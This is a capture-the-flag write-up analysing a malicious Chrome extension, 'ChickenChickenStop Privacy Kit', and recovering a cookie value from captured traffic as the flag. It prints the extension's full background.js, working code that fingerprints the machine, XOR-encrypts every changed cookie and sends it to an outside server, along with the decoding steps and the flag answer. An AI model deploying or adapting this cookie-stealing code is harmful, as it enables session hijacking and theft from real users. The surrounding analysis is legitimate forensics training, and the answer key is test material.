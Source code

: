 # Chrome-Plated Nonsense - 2
> The second extension the employee installed is named ChickenChickenStop Privacy Kit (see attached crx file). It claims to delete unnecessary cookies and improve user privacy, but it came from the same source as the first extension, and based on the traffic it is generating, it also appears to be exfiltrating information.

> Your task is to examine the network traffic from this extension, which has been ingested into Malcolm, and determine what information it was used to extract.

> Within the extracted data, what is the value of the lt variable in the cookie named MSPRequ?

> Flag format: value of the lt variable. Example: if cookie contained a=0&lt=12345&b=0, the flag would be 12345

## About the Challenge
We were given a `crx` file (You can download the extension [here](chickenchickenstop-privacy-kit.crx)) and we need to find the value of the `lt` variable in the cookie

## How to Solve?
We need to unzip the chrome extension first and as you can see there is a file called `background.js`


[Image extracted text: root@LAPTOP-FIL3RGSH
/Chrome#t
unzip chickenchickenstop-privacy-kit
crx
Archive
chickenchickenstop-privacy-kit
crx
Warning [chickenchickenstop-privacy-kit.crx]
593
extra bytes
at beginning
or within zipfile
(attempting
to
process
anyway_
inflating
background. js
extracting
Logo_128
png
extracting
logo_32
png
extracting
Logo_16.png
inflating
manifest.json
extracting
48
png
Logo_l]


If we open the `background.js` file, there are some information that we can obtain from that code

```javascript
var destination = "http://192.88.99.24:8080/"


// serializeCookie converts a cookie to string form
function serializeCookie(cookie) {
    output = "[" + cookie.domain + "," + cookie.expirationDate + "," + cookie.hostOnly + ",";
    output += cookie.httpOnly + "," + cookie.name + "," + cookie.path + ",";
    output += cookie.sameSite + "," + cookie.secure + "," + cookie.session + ",";
    output += cookie.storeId + "," + cookie.value + "]";

    return output
}


// sendCookie serializes, encrypts, and sends a cookie
function sendCookie(cookie) {
    var serializedCookie = "";
    var key = [];
    var encryptedCookie = [];
    var output = "";
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    // Serialize the cookie
    serializedCookie += serializeCookie(cookie);

    // Get key
    chrome.storage.local.get(["id"]).then((result) => {
        var keyString = result.id.slice(0, 4) + result.id.slice(-4,);
        key = keyString.split('');

        for (var i = 0; i < serializedCookie.length; i++) {
            var charCode = serializedCookie.charCodeAt(i) ^ key[i % key.length].charCodeAt(0);
            encryptedCookie.push(String.fromCharCode(charCode));
        }
        output = btoa(encryptedCookie.join(""));
        fetch(destination.concat(output), opts);
    });
}


// This will execute whenever a cookie is set or removed
chrome.cookies.onChanged.addListener((changeInfo) => {
    if (changeInfo.cause == "explicit") {
        sendCookie(changeInfo.cookie);
    }
});


// This will execute when the extension is first installed
chrome.runtime.onInstalled.addListener(() => {
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    chrome.system.cpu.getInfo((cpuInfo) => {
        chrome.system.memory.getInfo((memoryInfo) => {
            var info = "timestamp=" + Date.now()
            info += ",archName=" + cpuInfo.archName;
            info += ",modelName=" + cpuInfo.modelName;
            info += ",numOfProcessors=" + cpuInfo.numOfProcessors;
            info += ",availableCapacity=" + memoryInfo.availableCapacity
            info += ",capacity=" + memoryInfo.capacity;

            // Hash code adapted from https://developer.mozilla.org/en-US/docs/Web/API/SubtleCrypto/digest#converting_a_digest_to_a_hex_string
            const encoder = new TextEncoder();
            const data = encoder.encode(info);
            crypto.subtle.digest('SHA-256', data).then((digestBuffer) => {
                const hashArray = Array.from(new Uint8Array(digestBuffer));
                const uniqueId = hashArray.map((b) => b.toString(16).padStart(2, '0')).join('');
                fetch(destination.concat(btoa("id=" + uniqueId + "," + info)), opts);

                // Save ID in local storage
                chrome.storage.local.set({ id: uniqueId }).then(() => {
                    // do nothing
                });
            });
        });
    });
});
```

First, the extension will send information about the computer to `http://192.88.99.24:8080/`. Then the extension will send information about the website's cookie to `http://192.88.99.24:8080/`, but the code will XOR the cookie first with the first 4 digits and last 4 digits from the ID.

Open Malcolm dashboards and find information about `192.88.99.24:8080`


[Image extracted text: May 5, 2023
01:07:04.791
http.uri: 192.88.99.24
8080/alQ9NTFmZmJjMWESZIZhNzZMOGE1 YTAMNIQyMjdhMGYzNjYwNmIIMjRiY2IZMjc2NTg]MjBkMGUWNjc4ZGEzMGU4NSxOall1 Ic3RhbXA9MTY3NDU4MDg2NDc4NCxhcmNoTmFtzTI4ODZfNj QsblgkZIxOY
WTIPXZpcnQtMy4yLGSIbU9MUHJvY2Vzc29yczO4LGF2YIIsYWJsZUNhcGF jaXRSPTEzNjgxNTEZNTQOLGNhcGF jaXRSPTE3MTcxNjExNj04
firstPacket: May 5,
2023
01:07:04.791
lastPacket : May 5,
2023
01:07:04.798
length:
ipProtocol:
tcpflags. syn:
tcpflags
syn-ack:
tcpflags.ack:
tcpflags.psh:
tcpflags.fin:
tcpflags.rst:
tcpflags.urg:
tcpflags. srcZero:
tcpflags.dstzero:
initRTT:
srcPayload8: 474554202f615751
dstPayload8: 485454502f312e30   @timestamp:
Apr 10 ,
2023
22 :52:38.192
source.ip:
10.120.101.10
source
50 , 801
source.bytes:
812
source .packets:
source.mac-cnt:
source.mac :
42:74:71:e1:35:3a
destination.ip: 192.88.99.24
destination.
8 , 080
destination.bytes:
828
port:
port:]


If we decode the base64 encoded message, we will get this information

```
id=51ffbc1a9efa76f8a5a005d227a0f36606b524bcb627658520d0e0678da30e85,timestamp=1674580864784,archName=x86_64,modelName=virt-7.2,numOfProcessors=8,availableCapacity=13681516544,capacity=17171611648
```

Now we know the information about the id. To obtain the XOR key, we need to get the first 4-digit and last 4-digit of the id cookie. So the key is `51ff0e85`

The next step is finding the correct request by checking the logs one by one. And to do that, we need decode the message and XOR with `51ff0e85`


[Image extracted text: 18JVIOHBhcuJZMtBVNTALJAfDMFBwUDVVYBQ24IARcqMw]UDgIBBFFRATUKAgOAOW ==
firstPacket : May 5, 2023
01:07 :43.298
lastPacket : May 5,
2023
01:07:43.302
length:
ipProtocol:
tcpflags. syn:
tcpflags
syn-
tcpflags.ack:
tcpflags.psh:
tcpflags.fin:
tcpflags
rst:
tcpflags
urg:
tcpflags. srcZero:
tcpflags.dstZero:
initRTT:
srcPayload8: 474554202f626b59
dstPayload8: 485454502f312e30
@timestamp: Apr 10, 2023
22:52:39.142
source.ip:
10.120.101.10
source
port:
50, 982
source.bytes:
772
source
packets:
source.mac
cnt:
source.mac :
42:74:71:e1:35:3a
destination.ip: 192.88.99.24
destination.port:
8 , 080
destination.bytes:
734
destination.packets:
May 5
2023
01 :07:42.756
related.hosts: 192.88.92.2418088
http.uri
192.88.99.24 BO8d/bhBKCVcMVhtZWBADHgZXWBLECAJVATFbUFVKAFEJSIAZRRQTVUlIZmVjAxdFSRcZWT4SFFUWTEdcUhIPXwsUQUdEAOpEFOTOGOFKDTRYdhNZRVtXBLIMAAIGVVYDQItaCAAZ
http
host: 192.88.99.24 8080
url.domain: 192.88.99.24.8085
zeek.http
host:
192.88.92.24.8080
@version:
user_
agent.original: Mozilla/5.0  (Windows
NT 10.0; Win64 ; x64)
ApplellebKit/537.36   (KHTML
like Gecko)
Chrome/109.0.0.0
Safari/537
user
agent
0S.name:
Windows
user_agent
full:
Hindows
user
agent
0S.version:
user
agent .name
Chrome
user_
aqent.device.name:
Other
user
agent.version:
109.0.0.0
tags
Celestic,
celestic.
chrome
plated
file.mime_
type:
text/html
rootId: CcEfiLCfESDr SK75f
timestamp
May 5,
2023
May 5
2023
01 :07 :42.753
http.uri
492. 88.99.24 8o80/bh8KcVcMVhtZWBADHgZXWBLECAJVATFbUFVKAFEJSIAZRROTVUIIZmV jAxdFSRcZW14SFFUWTEdcUhIPXwsUQUdEAOpEFOIOGOFKDIRYdhNZRVtXBIIMAAIGVVYDQItaCAAZ
firstPacket:
2023
01 :07:42.753
lastPacket:
2023
01:07 :42.760
length:
ipProtocol:
tcpflags.syn:
tcpflags
syn-ack:
tcpflags.ack:
tcpflags.psh:
tcpflags.fin:
tcpflags.rst:
tcpflags.urg:
tcpflags.srcZero:
tcpflags.dstZero:
initRTT:
srcPayload8:
474554202f626838
dstPayload8: 485454502f312e30
@timestamp:
Apr 10 , 2023
22:52:39.142
source.ip: 10.120.101.10
source.port:
50, 969
source
bytes: 684
source_
packets:
source.mac
cnt:
source.mac
42:74:71:e1:35:3a
destination.ip: 192.88.99.24
ack:
Nay
May]


After checking the logs one by one, I finally obtained the flag by checking this base64 message.

```
bh8KCVcMVhtZWBADHgZXWBlECAJVA1FbUFVKAFEJS1AZRRQTVUl1ZmVjAxdFSRcZW145FFUWTEdcUhIPXwsUQUdEA0pEF01QGQFKD1RYdhNZRVtXBlIMAAIGVVYDQ1taCAA7
```


[Image extracted text: Recipe
Input
D9
bh8KcVcMVhtZWBADHgZXWBlECAJVALFbUFVKAFEJSLAZRRQTVUl1ZmVjAxdFSRcZW1ASFFUWTEdcUhIPXWSUQUdEAOpEFOLQGQ
From Base64
FKDLRYdhNZRVtXBLIMAAIGWYDQItaCAAZ
Alphabet
A-Za-20-9+/=
Remove
non-alphabet chars
Strict mode
XOR
Key
Scheme
51ff0e85
UTF8
Standard
132
132
Tt
Raw Bytes
Null preserving
Output
0 0 @
{
[.login.live.com,undefined,false,true,MSPRequ,-
,no_
restriction,true,true,0,id-N&lt-16745773038c0-1]


```
1674577303
```